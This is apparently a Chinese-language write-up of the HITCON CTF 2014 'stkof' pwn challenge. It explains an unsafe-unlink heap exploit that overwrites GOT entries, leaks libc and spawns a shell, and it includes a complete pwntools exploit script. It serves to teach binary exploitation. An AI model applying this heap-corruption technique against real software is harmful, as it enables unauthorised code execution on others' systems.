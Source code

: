 ```yaml
---
title: hitcon ctf 2014 - stkof
categories:
  - pwn
tags: null
published: true
---
```


# Introduction

学习 how2heap 中 unsafe unlink 的知识点

- [unsafe unlink](https://github.com/shellphish/how2heap/blob/master/unsafe_unlink.c)

**[stkof](https://github.com/0x3f97/pwn/blob/master/hitcon-ctf-2014-stkof/stkof)**: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=4872b087443d1e52ce720d0a4007b1920f18e7b0, stripped

{% highlight bash %}
checksec stkof

    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

{% endhighlight %}

- malloc - 调用 malloc 函数分配用户指定大小的内存，并在 bss 段存储分配的内存地址
- write - 填充任意大小的内存，可以溢出
- free - 调用 free 函数释放一块内存，参数从 bss 段中取
- puts - 输出程序限定的字符串，没什么用的函数

# Leak Libc

根据 unsafe unlink 的原理，分配两块相邻的内存，这里取 chunk2 和 chunk3

```
malloc(0x80)
malloc(0x80)	# chunk2
malloc(0x80)	# chunk3
```

而我们有一个已知位置的全局指针 `0x602140 + 0x10`，存放着 chunk2 的地址，则构造 fake chunk，再释放 chunk3 调用 unlink，实现任意地址写

```
payload = p64(0)
payload += p64(0x8)
payload += p64(0x602140+0x10-0x18)
payload += p64(0x602140+0x10-0x10)
payload += p64(0)*12
payload += p64(0x80)
payload += p64(0x90)
write(2, payload)

free(3)

gdb-peda$ x/16xw 0x602130
0x602130:	0x00000000	0x00000000	0x00000000	0x00000000
0x602140:	0x00000000	0x00000000	0x02c92020	0x00000000
0x602150:	0x00602138	0x00000000	0x00000000	0x00000000
0x602160:	0x00000000	0x00000000	0x00000000	0x00000000
```

接下来可以写 got 表，将 free 的 got 内容改写成 puts 的 plt 地址，则可以任意地址读

```
payload = p64(0)*3
payload += p64(free_got)
payload += p64(atol_got)	# 这里加上 atol_got 是为写 system 做准备
write(2, payload)

payload = p64(puts_plt)
write(2, payload)
```

这时以索引值 3 调用程序的第三个函数，则会将 atol 的 got 值打印出来，由此计算 libc 的基址

# Exploit

之后可以继续写 free 的 got 为 one_gadget 来 get shell，也可以写 system，完整的 exploit 代码：

- [exp.py](https://github.com/0x3f97/pwn/blob/master/hitcon-ctf-2014-stkof/exp.py)

```python
#!/usr/bin/env python

from pwn import *
import sys

context.log_level = "debug"

elf = "./stkof"
ENV = {"LD_PRELOAD":"./libc.so.6"}

p = process(elf)

def malloc(size):
    p.sendline("1")
    p.sendline(str(size))
    p.recvuntil("OK\n")

def write(idx, content):
    p.sendline("2")
    p.sendline(str(idx))
    p.sendline(str(len(content)))
    p.send(content)
    p.recvuntil("OK\n")

def free(idx):
    p.sendline("3")
    p.sendline(str(idx))
    p.recvuntil("OK\n")

def puts(idx):
    p.sendline("4")
    p.send(idx)

pop3_ret = 0x400dbe
pop_rdi_ret = 0x400dc3
pop_rsi_pop_ret = 0x400dc1
pop_rsp_pop3_ret = 0x400dbd

puts_plt = 0x400760
free_got = 0x602018
atol_got = 0x602080

system_off = 0x45390
bin_sh_off = 0x18cd17
one_gadget1 = 0x45216
one_gadget2 = 0x4526a
one_gadget3 = 0xcd0f3
one_gadget4 = 0xcd1c8
one_gadget5 = 0xf0274
one_gadget6 = 0xf0280
one_gadget7 = 0xf1117
one_gadget8 = 0xf66c0


malloc(0x80)
malloc(0x80)    # chunk2
malloc(0x80)    # chunk3

payload = p64(0)
payload += p64(0x8)
payload += p64(0x602140+0x10-0x18)
payload += p64(0x602140+0x10-0x10)
payload += p64(0)*12
payload += p64(0x80)
payload += p64(0x90)
write(2, payload)

free(3)

payload = p64(0)*3
payload += p64(free_got)
payload += p64(atol_got)
#payload += p64(0x602160)
write(2, payload)

payload = p64(puts_plt)
write(2, payload)

#gdb.attach(p)
p.sendline("3")
p.sendline("3")

libc_base = u64(p.recvline().strip().ljust(8, "\x00"))-0x36ea0
log.info("libc_base: "+hex(libc_base))

system_addr = libc_base + system_off
payload = p64(system_addr)

one_gadget = libc_base + one_gadget5
payload = p64(one_gadget)
write(2, payload)

bin_sh_addr = libc_base + bin_sh_off
payload = p64(bin_sh_addr)
#write(4, payload)

#gdb.attach(p)
p.sendline("3")
p.sendline("2")

p.interactive()
```

**Reference**
- [CTF Writeup - HITCON CTF 2014 stkof or the "unexploitable" heap overflow ?](http://acez.re/ctf-writeup-hitcon-ctf-2014-stkof-or-modern-heap-overflow/)